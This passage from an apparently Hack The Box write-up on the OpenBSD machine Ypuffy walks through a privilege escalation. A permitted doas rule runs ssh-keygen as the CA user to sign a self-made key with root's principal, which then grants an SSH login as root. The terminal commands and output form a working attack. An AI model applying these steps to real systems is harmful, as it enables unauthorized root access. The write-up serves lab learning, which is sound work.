 It seems we can run `ssh-keygen` as user `userca` without entering a password.

```
ypuffy$ ssh-keygen -t ecdsa 
Generating public/private ecdsa key pair.
Enter file in which to save the key (/home/alice1978/.ssh/id_ecdsa): /tmp/id_ecdsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_ecdsa.
Your public key has been saved in /tmp/id_ecdsa.pub.
The key fingerprint is:
SHA256:kbrMU2l1XcB9DEIKw58lsyYFz03VMLDuEPgQrXQWW3c alice1978@ypuffy.hackthebox.htb
The key's randomart image is:
+---[ECDSA 256]---+
|       .=o.o*+BBE|
|        oOB*.=.+=|
|       .=*B*+ . .|
|       .o*=+     |
|      . Soo .    |
|     o +   o     |
|      =     .    |
|       .         |
|                 |
+----[SHA256]-----+
```

We can generate a new DSA keypair for Alice and get it sign by the CA, making sure to assign the root's principal name `3m3rgencyB4ckd00r`"

Here's the breakdown of the `ssh-keygen` parameters used:
 - `-s` : this is the private key that will be used to sign the keys
 - `-I` : that's the certificate identity
 - `-n` : the principals associated with the key (we need to include `3m3rgencyB4ckd00r`)
 - `-V` : validity of the key
 - `-z` : serial number
 - `id_ecdsa.pub` : The public key we previously generated

```
ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I snowscan -n root,3m3rgencyB4ckd00r -V +1w -z 1 id_ecdsa.pub
Signed user key id_ecdsa-cert.pub: id "snowscan" serial 1 for root,3m3rgencyB4ckd00r valid from 2018-09-15T20:07:00 to 2018-09-22T20:08:02
ypuffy$ mkdir /home/alice1978/.ssh
ypuffy$ cp id_ecdsa* /home/alice1978/.ssh 
ypuffy$ ssh root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:oYYpshmLOvkyebJUObgH6bxJkOGRu7xsw3r7ta0LCzE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy# cat root.txt                                                                                                                                                                    
1265f8<redacted>
```